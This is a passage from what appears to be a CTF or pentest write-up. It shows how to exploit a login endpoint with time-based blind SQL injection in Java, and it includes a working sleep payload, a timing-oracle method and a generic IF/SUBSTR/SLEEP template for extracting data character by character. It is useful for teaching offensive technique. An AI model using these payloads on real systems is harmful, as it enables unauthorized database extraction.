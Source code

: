 ```java
	}
```

So we are now able to send commands to the backend using the above `sendCommand` method. My first bet here was to try some SQL Injection. But we have some limitations as the server only returns "Invalid username or password" or "Unknown". First message is received when there is no error but the username and password does not match and the last when something went wrong. With this restriction, we could try two approaches: Time-Based Blind SQL Injection or Error-Based Blind SQL Injection. Let's try time based with the simplest payload:

```java
System.out.println(PayloadRequest.sendCommand("'||sleep(10)#", "", ""));
// After 10 seconds ...
// {"success": false, "error": "Invalid username or password"}
```

### Time Based SQL Injection

What? Did we get it? 10 seconds to get a reponse from the payload above! This is definitely my lucky day ... What I could do now? Maybe a tamper for SQLMap [9]? No, no! This is not so 31337! Let's create our own exploit for blind SQL injection... in Java! First of all, we need to somehow compare two chars and based on response time determine a boolean value: True or False. We can achieve this as follows:

```java
    public static boolean blindBoolean(String payload) throws Exception {
        long startTime = System.nanoTime();
	
	PayloadRequest.sendCommand(payload, "", "");
		
	long endTime = System.nanoTime();
	long timeElapsed = endTime - startTime;		
	return (timeElapsed / 1000000) > PayloadRequest.TIME_TO_WAIT * 1000;	
    }
```

To measure response time we get the time before and after call `sendCommand` then we subtract and compare `TIME_TO_WAIT` with the elapsed time. If elapsed time is greater than `TIME_TO_WAIT` we have a True boolean value otherwise a False value.

Now we need an abstract query for general purpose that allows us to extract data from the database:

`'||(IF((SELECT ascii(substr(column,{1},1)) from table limit {2},1){3}{4},SLEEP({5}),1))#`.

with:
```
{1} -> %d -> string char position
{2} -> row offset. Limited to 1 result per query
{3} -> %c -> comparison operator ( =, >, <)
{4} -> %d -> ascii code value
{5} -> %d -> time to sleep
```

Also to improve the performance we could use a binary search algorithm [5] for our time based boolean check:
